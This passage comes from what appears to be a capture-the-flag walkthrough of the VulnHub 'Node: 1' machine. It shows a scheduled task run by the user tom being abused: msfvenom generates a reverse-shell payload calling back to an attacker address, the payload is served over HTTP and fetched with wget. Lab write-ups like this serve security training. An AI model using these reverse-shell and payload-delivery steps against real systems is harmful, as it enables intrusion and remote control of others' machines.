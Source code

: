 + There are other accounts on the system: `frank` and `tom`
+ `frank` is a distraction :no_good:
+ `tom` is running node on `/var/scheduler/app.js`

![9f935b96.png](/assets/images/posts/node-1-walkthrough/9f935b96.png)

You see, `tom` is running each command in the `tasks` collection every 30,000 milliseconds (or thirty seconds). If I can somehow insert a row into `tasks`, `tom`will execute it for me.

Let's do it this way. We transfer a reverse shell over to the VM.

I've checked `uname -a` beforehand; I know that it's running a 64-bit Ubuntu. We generate a reverse shell with `msfvenom` on my attacking machine like so.

```
# msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.20.128 LPORT=1234 -f elf -o rev
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: rev
```

Host the reverse shell with Python's SimpleHTTPServer module.

```
# python -m SimpleHTTPServer 80
```

Download the reverse shell to `/tmp/rev` with `wget` and make it executable.

![77f70ca9.png](/assets/images/posts/node-1-walkthrough/77f70ca9.png)


[1]: https://www.vulnhub.com/entry/node-1,252/
[2]: https://twitter.com/@iamrastating
[3]: https://www.vulnhub.com/